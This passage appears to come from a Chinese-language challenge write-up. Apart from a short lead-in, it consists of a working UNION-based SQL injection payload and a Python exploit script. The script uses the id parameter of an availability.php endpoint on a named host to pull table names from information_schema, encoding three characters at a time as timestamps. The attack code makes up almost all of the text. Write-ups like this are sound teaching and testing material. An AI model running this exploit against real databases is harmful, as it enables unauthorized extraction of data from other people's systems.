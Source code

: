 ``` sql
    ,1  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
union select 1,1672675200,
      ascii(SUBSTRING(group_concat(table_name),7))*86400
      + ascii(SUBSTRING(group_concat(table_name),8))*86400*128
      + ascii(SUBSTRING(group_concat(table_name),9))*86400*128*128
      + 1672675200
    ,1  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'
....
```

腳本如下：

``` python
# exploit-ava-30x.py
import requests
import datetime
import json
import urllib.parse
import time

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

def to_ts(raw):
  return datetime.datetime.strptime(raw, "%Y-%m-%d").timestamp()

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
start_time = '2023-01-01'
end_time = '2023-01-10'
date_count = 10
fetch_per_union = 3

start = time.time()

while True:
  unions = []
  query_time = base_time
  for i in range(date_count):
    payload = f'''
      ascii(SUBSTRING({field},{index}))*86400
      + ascii(SUBSTRING({field},{index+1}))*86400*128
      + ascii(SUBSTRING({field},{index+2}))*86400*128*128
      + {query_time}
    '''

    unions.append(f'union select 1,{query_time},{payload},1 {fr}')
    index += fetch_per_union
    query_time += 86400

  payload = " ".join(unions)
  print(payload)
  response = requests.get(f'{host}/availability.php?id=12345%20{encode(payload)}&start_time={start_time}&end_time={end_time}')
  if not response.ok:
    print('error')
    break
```